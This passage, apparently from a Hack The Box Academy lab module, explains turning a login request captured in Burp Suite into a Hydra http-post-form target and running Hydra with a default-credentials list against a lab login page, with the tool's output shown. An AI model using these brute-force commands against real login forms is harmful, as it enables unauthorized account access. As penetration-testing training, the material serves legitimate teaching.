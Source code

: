 ![FoxyProxy](https://academy.hackthebox.com/storage/modules/57/bruteforcing\_foxyproxy\_1.jpg)

Now, all we will do is attempt a login with any username/password 'e.g. `admin:admin`', and go back to BurpSuite, to find the login request captured: ![FoxyProxy](https://academy.hackthebox.com/storage/modules/57/bruteforcing\_burp\_request\_1.jpg)

Tip: If we find another request captured, we can click "Forward" until we reach our request from "/login.php".

What we need from the above-captured string is the very last line:

Code: bash

```bash
username=admin&password=admin
```

To use in a `hydra http-post-form`, we can take it as is, and replace the username/password we used `admin:admin` with `^USER^` and `^PASS^`. The specification of our final target path should be as follows:

Code: bash

```bash
"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

## Login Form Attacks

***

In our situation, we don't have any information about the existing usernames or passwords. Since we enumerated all available ports to us and we couldn't determine any useful information, we have the option to test the web application form for default credentials in combination with the `http-post-form` module.

***

### Default Credentials

Let's try to use the `ftp-betterdefaultpasslist.txt` list with the default credentials to test if one of the accounts is registered in the web application.

Login Form Attacks

```shell-session
root@htb[/htb]$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) d020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```
